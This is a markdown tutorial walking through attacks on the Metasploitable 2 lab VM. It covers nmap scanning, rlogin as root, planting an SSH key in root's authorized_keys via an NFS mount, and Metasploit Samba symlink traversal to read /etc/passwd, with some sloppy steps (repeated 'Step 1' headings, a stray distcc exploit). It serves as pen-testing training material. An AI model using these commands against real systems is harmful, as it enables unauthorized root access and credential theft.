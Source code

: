 ```yaml
---
title: Metasploitable
published: true
---
```

The following information shows the **Metasploitable walkthrough**

## [](#header-2)Introduction

   Metasploitable is a Linux based operating system that is designed in a vulnerable way so that the pen-testers and ethical hackers can test their skills. There is no security to the server hence it is always better to _run the metasploitable in a virtual environment_, as anyone can logon into it.
  
### [](#header-3)Requirements
  
   1. Download the vulnerable OS from the following link, **[metaploitable_download_link](https://sourceforge.net/projects/metasploitable/files/Metasploitable2/).**
   2. Kali Linux can be downloaded from the link, **[Kali_Linux_download_link](https://www.kali.org/).**
   3. Virtual Environment, here example is shown using VMware Workstation.
   4. Good understanding of Metasploit Framework(MSF).
   5. Linux commands usage.
       Install both the Operating Systems and run it.
      
      **_NOTE: Installation steps of Kali Linux can be found here,[Kali_linux_insatllation_guide](another_page)_.**
      
   When the OSes installed properly, one can encounter as shown in the following image,
   

# [](#header-1) image 
   
   
   Login into the metasploitable terminal, Username and password would be given(commonly, it is msfadmin)
     
   Get the IP address, `# ifconfig`
   Use that IP_address and perform the following steps: 
        
	1. Scanning
        
        2. Vulnerability identification/Enumeration
        
        3. Exploitation and Access Gaining 

# [](#header-1) Network Penetration Testing

# [](#header-1)Step 1: Scanning 
   
   In this we need to find the ports that are open and also services running on that each port using which exploitation is done.

   * Open a terminal in Kali Linux and use **_namp_** to perform the Network Scanning
   * Enter the following command, `# nmap -sS -Pn -n ip_address`
     - by default NMAP scans upto 1000 ports, to scan all the ports use either `-p`- or `-p 1-65535`
     - the above command offers the TCP SYN scan, to scan the UDP ports use `-sU`
     - the command also skips the host discovery(no Ping) and DNS resolution
            
      The results can be similar to the following image,
      
      # [](#header-1) image 
         
        ![](https://assets-cdn.github.com/images/icons/emoji/octocat.png)



# [](#header-1)Step 1: Enumeration

nmap -Pn --script vuln 192.168.1.105

   

# [](#header-1)Step 1: Exploitation and Acess Gaining

   There are various to gain access to the Metasploitable target machine. Lets try them as follows,

**_METHOD 1:_**
   
   Ports 512,513,514 offers the ‘r’ services, it means that remote access can be gained from any host using the IP address.
   
   So open a terminal and type, 
   
	   # rlogin -l root ip_address	

	// if asks for password then probably rsh-client is not installed, else you will be in that target machine.

	   # apt install rsh-client

	   now execute, # rlogin -l root ip_address	

	// should work perfectly if that service is open


**_METHOD 2: SSH LOGIN_**

   For this we need to generate the RSA key and kinda have to copy that key to that target machine using rpcbind and NFS (port 2049) mount the NFS export (for exporting), and add our key to the root user account's authorized_keys file.
      
	   # apt update

	   # apt install rpcbind nfs-common

	   # rpcinfo -p ip_address

	   # showmount -e ip_address

	   # ssh-keygen	//just press enter for the questions asked for default settings

	   # mkdir /tmp/r00t

	   # mount -t nfs ip_address:/ /tmp/r00t

	   # cat ~/.ssh/id_rsa.pub >> /tmp/r00t/root/.ssh/authorized_keys

	   # umount /tmp/r00t

	   # ssh root@ip_address

         
**_METHOD 3: SMB 445_**

   Samba, can also be used as a backdoor to access files that were not meant to be shared when configured with a writeable file share and "wide links" enabled. I used Metasploit Framework to compromise the target.
	
	   On msfconsole,

		   > use exploit/unix/misc/distcc_

		   > set rhost 192.168.214.129

		   > exploit

	   On another terminal

	   	   # smbclient -L //ip_address

	   On msfconsole,

		   > use auxiliary/admin/smb/samba_symlink_traversal

		   msf5 auxiliary(admin/smb/samba_symlink_traversal) > set rhost ip_address

		   msf5 auxiliary(admin/smb/samba_symlink_traversal) > set SMBSHARE tmp

		   msf5 auxiliary(admin/smb/samba_symlink_traversal) > exploit

	   On terminal,

	  	   # smbclient  //ip_address/tmp
				// now you will have the smb shell access, try #cd rootfs #cd etc and #more passwd


